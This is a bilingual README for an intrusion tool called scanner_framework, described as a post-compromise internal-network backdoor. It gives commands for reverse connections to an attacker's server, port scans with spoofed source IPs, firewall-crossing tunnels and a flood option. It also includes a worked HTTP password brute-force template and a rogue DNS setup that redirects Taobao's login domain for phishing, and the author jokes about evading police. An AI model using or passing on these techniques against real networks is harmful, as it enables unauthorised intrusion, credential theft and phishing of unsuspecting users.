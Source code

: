 ﻿
## scanner_framework ##


中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro<br/>

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.<br/>


***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to use it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
using:arp<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
using:local<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解  [online crack]<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪  [tracert route]<br/>
using:tracert %ip/host%<br/>
抓取页面  [get a HTML page on server]<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能  [tunnal port]<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
启动DNS 服务器 [dns server]<br/>
using:dns [run|start] | add %host% %ip% | delete %ip%<br/>
获取外网IP 地址和粗略定位 [get internet ip no is internal network ip and get the location]<br/>
using:ip<br/>
显示帮助  [show help]<br/>
using:help<br/>
退出  [exit scanner]<br/>
using:quit<br/>


***

###在线破解  [About Online Crack]
>在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
>
>什么是表达式?
>
>表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
>
>本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
>
>crack 192.168.1.103 80
>
>然后会提示输入表达式
>
>input your crack express:
>
>输入数据包数据:
>POST http://192.168.1.103:80/api/analays.php HTTP/1.1
>Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
>Referer: http://192.168.1.103/api/analays.php
>Accept-Language: zh-CN
>User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)
>Content-Type: application/x-www-form-urlencoded
>Accept-Encoding: gzip, deflate
>Host: 192.168.1.103
>Content-length: %length%
>Pragma: no-cache
>
>__user=%username%&pass=%password%__
>
>其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小
>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名
>和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填
>%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间
>某个位置出现填写错误就输入<reset>来重新填写破解数据包,
>下面的输入成功判断条件也是同理..
>
>input your check term:
>
>输入成功判断条件,由于经过测试,如果输入密码成功的话,
>页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
>Success
>
>now cracking!
>
>__network crack - target:192.168.1.103:80
>username:root password:toor__
>
>破解完成
>
>
>表达式函数:
>
>__base64(%string%)__ -- 采用base64 编码
>__time()__ -- 获取系统时间
>__len(%string%)__ -- 统计字符串长度
>__rnd([%low%-%up%])__ -- 在%low% 到%up% 之间生成随机数
>
>Example :
>
>破解水星的数据包 (其它都差不多,关键在Cookie):
>
>Cookie: a2404_pages=10; a2404_times=5; __Authorization=Basic%20base64(admin:%password%)__\r\n
>
>接下来会把%password% 先填充好之后再编码base64
>
>WARNING! 由于水平问题还做不出递归,请见谅 ..  
>


####DNS 服务器 [About DNS Server]

DNS 服务器是针对内网的信息钓鱼,比如通过伪造的站点来钓得更多的个人信息或者欺骗应用程序更新,如果上面的用法还不太明白的话可以看这里 [DNS server usualy use redirecting to phishing sites]<br/>

dns run 启动DNS 服务器 [run dns server]<br/>
dns exit 退出DNS 服务器 [exit dns server]<br/>
dns add m.login.taobao.com 127.0.0.1 把淘宝的手机登陆域名绑定到本地IP [point m.login.taobao.com to localhost via dns setting]<br/>
dns delete www.baidu.com 删除DNS 查询项目 [delete this record]<br/>


####端口转发原理 [tunnal port design]
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


***

###Other

#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..
